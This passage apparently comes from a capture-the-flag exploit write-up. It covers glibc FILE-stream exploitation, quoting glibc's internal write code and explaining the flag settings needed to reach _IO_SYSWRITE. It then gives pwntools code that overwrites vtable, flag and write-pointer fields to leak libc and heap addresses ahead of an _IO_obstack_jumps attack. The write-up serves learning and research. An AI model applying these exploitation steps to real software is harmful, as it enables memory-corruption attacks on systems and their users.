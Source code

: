```c
	return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0
		       && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
		       ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```
{{< /expand >}}

**Note**: Given `fp->_IO_read_end != fp->_IO_write_base`, `fp->_IO_read_end` is the save buffer that has been allocated and switched in `_IO_default_pbackfail` and that `_IO_write_base` contains the target memory area, we have to include the `_IO_IS_APPENDING` flag into `fp->_flags` to avoid the `_IO_SYSSEEK` which would fail and then return. Therefore we can finally reach the `_IO_SYSWRITE` that will leak the libc pointer.

The leak phase gives for me something like this:
```py
# do_allocate
partial_write(pwn.p8(0xa8), File.vtable)
fflush()

# _IO_file_underflow => _IO_default_pbackfail
partial_write(pwn.p8(0x60), File.vtable)
fflush()

write_ptr(pwn.p64(0xfbad1800 | 0x8000), File.flags)

partial_write(pwn.p8(0x70), File._IO_write_base)

partial_write(pwn.p8(0x78), File._IO_write_ptr)
partial_write(pwn.p8(0xa0), File.vtable)
write_ptr(pwn.p64(1), File.fileno)
fflush()

leak = pwn.u64(io.recv(8).ljust(8, b"\x00")) - 0x2160c0 + 0x2d160
pwn.log.info(f"libc: {hex(leak)}")
```

## Heap leak

To use the `_IO_obstack_jumps` technique, we have to craft a custom `obstack` structure on the heap (right on our filestream in fact) and thus we need to leak the heap to be able reference it. But given we already have a libc leak that's very easy, within the `main_arena` are stored some heap pointers, which means we just have to use the same `_IO_fflush` trick to flush the filestream and then leak a heap pointer stored in the `main_arena`. I wrote a function that leaks directly the right pointer from a given address:
```py
def leak_ptr(ptr: bytes) -> int:
    """
    We assume flags are right
    """

    write_ptr(ptr, File._IO_write_base)
    
    dest = (int.from_bytes(ptr, byteorder="little")+8).to_bytes(8, byteorder='little')

    write_ptr(dest, File._IO_write_ptr)
```